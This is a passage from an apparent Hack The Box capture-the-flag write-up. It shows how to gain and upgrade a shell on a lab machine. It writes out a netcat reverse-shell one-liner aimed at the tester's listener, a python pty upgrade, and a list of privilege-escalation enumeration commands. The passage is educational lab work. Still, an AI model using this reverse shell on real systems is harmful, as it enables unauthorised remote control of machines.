 To connect to our netcat listener on our machine we create and execute the following payload through the payload interface

```text
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.21 4445 > /tmp/f
```

You can find the same code used here and many more useful short code snippets for gaining reverse shell here: [http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

All that needs changing in the ip address and port to match our own on the HTB network and the port set in the netcat port above.

![](.gitbook/assets/vmplayer_u8a5nuwhhg.png)

And we are in. We are webadmin on the server. From here we need to escalate our privileges until we become root.

### Upgrading our Shell

The shell that we have gained so far isn't the best we could make it. I would much rather have a tty shell and tab auto complete to make our QoL a lot better. To do this we simply type into our shell:

```text
python3 -c "import pty;pty.spawn('bin/bash')"
```

from here we press ctrl + z. And then type stty raw -echo into our command line and then press fg.

What this is doing is using the fact that we have python installed on the victim to spawn a more interactive shell. By pressing ctrl + z we background our current connection to the shell. The "stty raw -echo" part allows us to pipe our type input into the shell. And from there the "fg" which you will not be able to see yourself type into the command line after typing "stty war -echo" brings back the shell into the foreground. From here we now have tab auto complete and colour sensitive output.

### User PrivEsc

Now that we have a basic user shell on the machine it is time to do some basic enumeration. My usuall first few commands that I always eneter on a linux machine are as follows:

* [ ] whoami
* [ ] hostname
* [ ] history
* [ ] uname -a
* [ ] sudo -l
* [ ] sudo su
* [ ] netstat -ano
